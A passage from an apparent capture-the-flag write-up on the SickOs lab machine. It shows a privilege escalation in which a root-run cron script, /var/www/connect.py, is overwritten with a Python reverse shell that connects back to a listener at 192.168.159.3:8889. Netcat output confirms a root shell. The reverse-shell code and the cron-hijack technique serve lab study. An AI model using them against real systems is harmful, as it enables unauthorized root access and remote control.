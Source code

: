 ```
-rwxr-xr-x  1 root root   314 Apr 19  2013 aptitude
-rwxr-xr-x  1 root root   502 Mar 31  2012 bsdmainutils
-rwxr-xr-x  1 root root   256 Oct 14  2013 dpkg
-rwxr-xr-x  1 root root   372 Oct  5  2011 logrotate
-rwxr-xr-x  1 root root  1365 Dec 28  2012 man-db
-rwxr-xr-x  1 root root   606 Aug 17  2011 mlocate
-rwxr-xr-x  1 root root   249 Sep 13  2012 passwd
-rwxr-xr-x  1 root root  2417 Jul  2  2011 popularity-contest
-rwxr-xr-x  1 root root  2947 Jun 20  2012 standard
-rwxr-xr-x  1 root root   214 Sep 11  2012 update-notifier-common

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Sep 22  2015 .
drwxr-xr-x 90 root root 4096 Dec 14 20:41 ..
-rw-r--r--  1 root root  102 Jun 20  2012 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Sep 22  2015 .
drwxr-xr-x 90 root root 4096 Dec 14 20:41 ..
-rw-r--r--  1 root root  102 Jun 20  2012 .placeholder

/etc/cron.weekly:
total 20
drwxr-xr-x  2 root root 4096 Sep 22  2015 .
drwxr-xr-x 90 root root 4096 Dec 14 20:41 ..
-rw-r--r--  1 root root  102 Jun 20  2012 .placeholder
-rwxr-xr-x  1 root root  730 Sep 14  2013 apt-xapian-index
-rwxr-xr-x  1 root root  907 Dec 28  2012 man-db
```

I found that at `/etc/cron.d/automate` it executes the `connect.py` automatically:
```
www-data@SickOs:/var/www$ cat /etc/cron.d/automate
cat /etc/cron.d/automate

* * * * * root /usr/bin/python /var/www/connect.py
```

So I would like to edit python file by change it to reverse shell and if it run I will got shell with root privilege.
```
$ cat connect.py
#!/usr/bin/python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.159.3",8889))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
I waited for a few seconds.
```
root@BOEING:~# nc -nvlp 8889
listening on [any] 8889 ...
connect to [192.168.159.3] from (UNKNOWN) [192.168.159.131] 60617
/bin/sh: 0: can't access tty; job control turned off
# id 
uid=0(root) gid=0(root) groups=0(root)
```
